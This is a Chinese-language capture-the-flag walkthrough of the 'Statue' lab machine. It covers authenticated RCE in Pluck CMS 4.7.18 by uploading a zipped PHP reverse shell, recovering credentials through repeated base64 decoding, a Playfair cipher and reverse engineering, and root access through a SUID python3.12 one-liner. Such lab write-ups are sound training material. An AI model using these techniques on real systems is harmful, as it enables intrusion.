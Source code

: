 # Statue

2025.03.03 https://thehackerslabs.com/statue/

[video](https://www.bilibili.com/video/BV1ub9tYKEZB/?spm_id_from=333.1387.upload.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 80 可以 Index 目录，但是空目录。将 statue.thl 添加到 hosts。

web 目录扫描，发现登陆页面 http://statue.thl/login.php 版本 pluck 4.7.18 ， 有 RCE 漏洞，但是需要密码。

发现 http://statue.thl/README.md 显示的是 base64，经过 17 次 base 解码，得到 fideicomiso 就是上面 cms 的密码，http://statue.thl/admin.php?action=installmodule 在这个页面上上传 zip 包，里面是 php shell 反弹文件（shell 的文件名和 zip 包的文件名保持一致），上传成功后，就在 kali 上得到了反弹的 shell。

访问下面这个 url 也可以触发反弹:

```
http://statue.thl/data/modules/8888/8888.php
```

发现 /var/www/Charles-Wheatstone/pass.txt:

```
bash-5.2$ cat /var/www/Charles-Wheatstone/pass.txt
Pass KIBPKSAFMTOIQL

Key Vm0xd1MyUXhVWGhYV0d4VFlUSm9WbGx0ZUV0V01XeHpXa2M1YWxadFVuaFZNVkpUVlVaYVZrNVlW
bFpTYkVZelZUTmtkbEJSYnowSwo=
```

将 Key 经过 7 次 base64 解码得到 guardar ，同时发现 Charles-Wheatstone 发明了 Playfair cipher 加密方法，经过 Playfair cipher 解密后 http://www.online.crypto-it.net/eng/playfair.html 得到 INCOMPRENSIBLE 要将密码转换成小写 incomprensible 成功切换到 charles。

在 home 目录中查看一下这个程序的可见字符串，juan 是用户名，进行逆向，发现 generador 可能是密码：

```
s = "juan";
var_28h = "generador";
encrypt_decrypt("juan", (int64_t)&var_30h);
encrypt_decrypt(var_28h, (int64_t)&var_38h);
```

使用 切换到 juan，拿到了 user flag：

```
juan@TheHackersLabs-Statue:~$ cat user.txt
42d6174fddbf1ff96b645cd7a8f6d270
```

sudo -l 显示 (ALL) NOPASSWD: ALL 可以直接提权到 root。

这里也可以直接提权，发现 suid 程序 /usr/bin/python3.12 直接提权到 root：

```
bash-5.2$ /usr/bin/python3.12 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# cd /home
# cd juan
# ls
binario  user.txt
# cat user.txt
42d6174fddbf1ff96b645cd7a8f6d270

# cd /root
# ls
root.txt
# cat root.txt
0284c6ac58cb47bb52e427007beee58e0132bf71
```
